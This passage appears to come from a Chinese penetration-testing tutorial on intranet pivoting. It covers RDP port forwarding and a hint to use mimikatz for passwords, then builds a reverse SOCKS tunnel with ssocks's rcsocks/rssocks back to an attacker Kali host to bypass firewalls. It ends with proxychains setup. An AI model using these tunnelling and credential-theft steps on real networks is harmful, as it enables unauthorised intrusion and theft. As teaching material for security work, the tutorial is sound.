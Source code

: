 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIOtGMPW88hF6yo1rZ8iasuf5vNedGykhxjCZ2vTt5O7ChlIUeKagLJStA/640?wx_fmt=png)

成功将端口 3389 转发到本地 8090 端口上。可看到在 kali 上运行 rdesktop 后成功通过 8090 端口登录到对方的 3389 远程桌面上，这里密码可以上传 mimikatz 获得密码…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIO0zob8FnFguCMOxiajiaSEIw8KavTNInDOVXuf7Q92DakNPAeacK7hNMg/640?wx_fmt=png)

**0x05 socket 隧道**

Socket 隧道比 SSH 隧道应用更广范，以及使用起来简单，该方法可以直接绕过防火墙设备进行进一步内网穿透。

**1、下载安装 ssocks**

首先需要下载：（kali2020.4 和 web 服务器都需要安装）

*   http://sourceforge.net/projects/ssocks/
    

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIO2sEzp27c0a6W2kF5EZOzTvEHrTZsMfuM7n1nDuibZfcDibUITkNfRRWA/640?wx_fmt=png)

下载完成后进行解压并执行，然后会出现 SRC 目录，所有的隧道文件都在该目录下，这里操作主要用到 rcsocks、rssocks。

```
tar zxvf ssocks-0.0.14.tar.gz
./configure && make    #进行编辑并生成文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIONAyHibBZJ8stKROXxFKCZjfqoQeiatCOibj75eV6LjqJFX7NvOVicEmRGg/640?wx_fmt=png)

**2、执行反向代理**

本地通过 rcsocks 将端口 3333 和 2222 端口建立连接通道，等待远程 Socks5 服务器访问本地 2222 端口即可。

```
./rcsocks -l 3333 -p 2222 -vv
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIOuTwRbiar1RiarP1H3tUuribC8fas0lCFyNJ2pElYfTJwoMMJPzFTHajNg/640?wx_fmt=png)

通过 rssocks 访问攻击者 kali 建立的 2222 端口，这样 socket 隧道就建立成功了，该隧道可以通过代理形式互相访问。

```
./rssocks -s 192.168.175.145:2222 -vv
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIORwL13xQU6GE85bWpPsSkt1ibFqVYHvjOKfG2PQDKHt13rfE0wXmRC2g/640?wx_fmt=png)

下面还需要一些链接代理的工具，firefox 浏览器、proxychains、proxifire 都可以，这里演示 proxychains。

```
apt install proxychains    #安装
```

接下来配置下 vi /etc/proxychains4.conf，加个 sockes 即可：socks5 127.0.0.1 2222

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIOLFbHEYjXfP2j2SlNU1vfsm461dibzGPLLhooGtYZqnjkickP3KLA9xZQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc3YMNwWIMbHHmZtsgibASIODBX2dZDrtDP7mBwEtY6PmKSibhHb0XL5pJfMCdZmPmNVibq0fYtPv4AA/640?wx_fmt=png)  
